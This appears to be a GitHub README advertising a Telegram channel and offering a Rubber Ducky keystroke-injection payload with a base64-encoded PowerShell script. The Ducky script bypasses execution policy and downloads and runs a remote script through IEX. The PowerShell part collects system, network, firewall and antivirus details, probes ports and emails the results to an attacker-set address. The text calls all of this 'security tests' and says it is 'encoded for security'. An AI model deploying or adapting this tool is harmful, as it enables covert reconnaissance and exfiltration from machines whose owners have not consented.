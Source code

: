 # join to my channel & for more... https://t.me/DuckyScript1


# Rubber-Ducky-Script

This script performs security tests, gathers system and network data, and emails a report. The script is encoded for security.

#### Encrypted PowerShell Script

```powershell
# Script content
$script = @"
# Email config
\$smtpServer = "smtp.example.com"
\$smtpFrom = "you@example.com"
\$smtpTo = "recipient@example.com"
\$messageSubject = "Security Test Report"
\$smtpUser = "you@example.com"
\$smtpPass = "yourpassword"

# Collect data
\$sysInfo = Get-ComputerInfo | Select-Object -Property CsName, WindowsVersion, OsArchitecture
\$networkInfo = Get-NetAdapter | Select-Object -Property Name, Status, MacAddress
\$portScanResults = Test-NetConnection -ComputerName "192.168.1.1" -Port 22,80,443
\$firewallStatus = Get-NetFirewallProfile | Select-Object -Property Name, Enabled
\$antivirusStatus = Get-CimInstance -Namespace "root/SecurityCenter2" -ClassName "AntiVirusProduct" | Select-Object -Property displayName

# Compile report
\$report = @"
System Info:
\$($sysInfo | Format-List | Out-String)

Network Info:
\$($networkInfo | Format-Table | Out-String)

Port Scan:
\$($portScanResults | Format-Table | Out-String)

Firewall:
\$($firewallStatus | Format-Table | Out-String)

Antivirus:
\$($antivirusStatus | Format-Table | Out-String)
"@

# Send email
\$mailMessage = New-Object system.net.mail.mailmessage
\$mailMessage.from = \$smtpFrom
\$mailMessage.To.add(\$smtpTo)
\$mailMessage.Subject = \$messageSubject
\$mailMessage.Body = \$report
\$smtp = New-Object Net.Mail.SmtpClient(\$smtpServer)
\$smtp.Credentials = New-Object System.Net.NetworkCredential(\$smtpUser, \$smtpPass)
\$smtp.Send(\$mailMessage)
"@

# Encode and execute
$encodedScript = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($script))
Invoke-Expression "powershell -EncodedCommand $encodedScript"
```

### Rubber Ducky Script

```Rubber Ducky
DELAY 500
STRING powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "& { (New-Object Net.WebClient).DownloadString('https://example.com/encoded_script.ps1') | IEX }"
ENTER
```

### Instructions

1. **Upload**: Upload the PowerShell script to a web server.
2. **Update**: Modify email settings in the PowerShell script.
3. **Load**: Load the Rubber Ducky script and run it.

This script collects system and network data, performs security tests, and emails the report, all encoded for security.
